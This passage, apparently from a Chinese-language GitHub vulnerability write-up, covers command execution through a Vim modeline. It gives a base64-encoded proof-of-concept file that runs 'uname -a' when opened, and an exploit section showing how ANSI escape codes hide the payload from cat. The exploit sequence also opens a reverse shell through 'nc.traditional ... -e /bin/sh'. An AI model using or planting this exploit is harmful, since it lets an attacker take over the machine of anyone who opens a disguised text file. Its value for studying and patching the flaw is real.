 - Step4 - 创建poc文件

```shell
echo "G1s/OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > poc.txt

# base64编码明文：
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="\n

```

- Step5 - 用vim打开触发命令执行``(uname -a)``

```shell
$ vim poc.txt 

Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Press ENTER or type command to continue

```



## 4. EXP

##### a. EXP原理

- Exp是一条精心构造的modeline，主要是为了把恶意文件伪造成正常文本，消除痕迹； 

- 可以分为两部分，一部分用于欺骗Vim，实现代码执行，隐藏恶意文本内容；

- 另一部分用于欺骗cat，使文本打开时看起来是正常文本；

- 主要通过ANSI Escape Code来实现这些隐藏功能。

Vim加载exp文件后等同于执行下面的序列：

```shell
# modeline触发执行自动配置
:set fen
:set fdm=expr
:set fde=assert_fails('set\ fde=x\ \|\ source\!\ \%')
:set fdl=0

# fde=assert_fails触发了assert_fails函数调用
:call assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\')

# assert_fails函数执行vim命令
:set fde=x | source! %

# source! % 加载当前文件，并视为Vim Ex mode下的脚本执行：
<ESC>
S
Nothing here.
<ESC>
:silent! w
:call system('nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &') 
:redraw! 
:file 
:silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

# 读取到换行符号后\n执行上面第一个silent!以及后面的命令
# 通过vim的system函数执行了系统命令,建立反弹shell

```
